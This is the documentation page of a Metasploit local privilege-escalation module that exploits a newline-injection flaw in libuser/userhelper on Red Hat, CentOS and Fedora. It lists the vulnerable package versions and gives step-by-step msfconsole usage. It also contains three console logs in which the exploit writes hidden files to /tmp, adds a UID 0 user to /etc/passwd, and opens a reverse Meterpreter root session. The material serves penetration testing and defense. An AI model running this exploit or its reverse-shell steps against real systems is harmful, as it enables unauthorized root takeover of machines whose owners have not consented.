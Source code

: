 ## Description

  This module attempts to gain root privileges on Red Hat based Linux
  systems, including RHEL, Fedora and CentOS, by exploiting a newline
  injection vulnerability in `libuser` and `userhelper` versions prior
  to `0.56.13-8` and version `0.60` before `0.60-7`.

  This module makes use of the `roothelper.c` exploit from Qualys to
  insert a new user with `UID=0` in `/etc/passwd`.

  Note, the password for the current user is required by `userhelper`.

  Note, on some systems, such as Fedora 11, the user entry for the
  current user in `/etc/passwd` will become corrupted and exploitation
  will fail.


## Vulnerable Application

  This module has been tested successfully on libuser packaged versions:

  * `0.56.13-4.el6` on CentOS 6.0 (x86_64)
  * `0.56.13-5.el6` on CentOS 6.5 (x86_64)
  * `0.60-5.el7` on CentOS 7.1-1503 (x86_64)
  * `0.56.16-1.fc13` on Fedora 13 (i686)
  * `0.59-1.fc19` on Fedora Desktop 19 (x86_64)
  * `0.60-6.fc21` on Fedora Desktop 21 (x86_64)
  * `0.56.13-5.el6` on Red Hat 6.6 (x86_64)
  * `0.60-5.el7` on Red Hat 7.0 (x86_64)

  RHEL 5 is vulnerable, however the installed version of `glibc` (`2.5`)
  is missing various functions required by `roothelper.c`.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/libuser_roothelper_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set PASSWORD [PASSWORD]`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **PASSWORD**

  Password for the current user. (default: blank)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether `roothelper.c` should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ### libuser 0.56.13-5.el6 on Red Hat 6.6 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.QQ4pE9nj.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.SJAEHS' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.245
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.245:46065) at 2018-04-23 13:08:51 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 6 (Linux 2.6.32-504.el6.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-5.el7 on CentOS 7.1-1503 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.Ake5GA' (103396 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.vbahMY' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.242:48332) at 2018-04-23 13:13:22 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat 7.1 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### libuser 0.60-6.fc21 on Fedora Desktop 21 (x86_64)

  ```
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > set password password
  password => password
  msf5 exploit(linux/local/libuser_roothelper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ByQC9FHS.c' (29342 bytes) ...
  [*] Launching roothelper exploit (Timeout: 180)...
  [+] Success! User 'a' added to /etc/passwd
  [*] Writing '/tmp/.WnBXJkWDa' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.240
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.240:53201) at 2018-04-23 13:16:32 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```


